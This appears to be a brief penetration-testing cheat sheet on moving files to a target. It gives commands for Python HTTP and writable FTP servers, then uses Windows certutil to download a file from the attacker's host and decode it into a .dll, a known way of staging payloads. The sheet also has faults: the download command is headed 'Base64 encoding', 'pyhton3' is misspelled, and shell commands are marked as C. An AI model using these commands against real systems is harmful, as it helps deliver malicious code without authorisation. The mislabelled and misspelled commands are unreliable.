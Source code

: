 ### Python SimpleHTTPServer
```c
python -m SimpleHTTPServer <local_port>
```
### Python3 HTTP Server
```c
pyhton3 -m http.server <local_port>
```
### Simple FTP Server
```c
python -m pyftpdlib -p 21 --write
```
### Certutil
Base64 encoding
```c
certutil.exe -urlcache -split -f "http://<local_ip>/<file>" <file>
```
Base64 decoding
```c
certutil.exe -decode <file>.txt <file>.dll
```
